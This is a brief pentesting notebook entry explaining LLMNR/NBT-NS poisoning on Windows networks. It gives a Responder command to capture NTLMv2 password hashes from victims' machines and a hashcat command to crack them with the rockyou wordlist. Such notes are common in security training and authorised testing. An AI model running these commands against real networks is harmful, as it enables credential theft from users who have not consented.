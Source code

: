 # LLMNR/NBT-NS poisoning overview
Link Local Multicast Name Resolution
NetBios Name Resolution
Used to identify hosts when dns fails, both services use username and password hashes which can be captured via MTM attacks
![[LLMNR_poison.png]]

#### responder.py
assuming we are on the network we can run responder and begin the poisoning process
`python Responder.py -I enp0s31f6 -rdw `

You can now point machines to yourself (via an smb connect, something like `//IP/` in file explorer window). This will result in the has being sent to use through responder.

![[responder_hash.png]]

We can now crack this hash via hashcat
`hashcat -m 5600 hash /home/dials/tools/words/rockyou.txt `
![[cracked_hash.png]]